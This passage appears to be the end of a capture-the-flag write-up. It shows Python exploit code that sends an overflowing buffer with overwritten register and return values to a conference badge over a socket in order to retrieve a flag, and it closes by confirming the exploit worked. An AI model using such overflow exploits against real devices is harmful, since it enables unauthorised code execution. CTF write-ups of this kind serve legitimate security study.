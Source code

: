 ```python

def exploit(target, port, a10, a11, pc, a1):
    buffer = b"\x65" * 40 + a10 + a11 + pc + a1 + b"\n"

    print(f"Connecting to {target}:{port}...")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target, port))

    print(f"Waiting for user to accept connection...")
    r = s.recv(128)
    status = r.decode()
    print(status)

    if "denied" in status:
        s.close()
        return

    print(f"Sending malicious buffer...")
    s.sendall(buffer)

    print(f"Buffer sent, awaiting reply...")

    # Discard output of do_echo() 
    s.recv(len(buffer))

    r = s.recv(39)
    s.close()

    print(f"Flag: {r.decode()}")

if __name__ == "__main__":
    main()
```

When we run the exploit, we can see that we did it! We can successfully
retrieve the placeholder flag from our badge. A CTF organiser has also kindly
confirmed the exploit works against badges that contain the real flag.
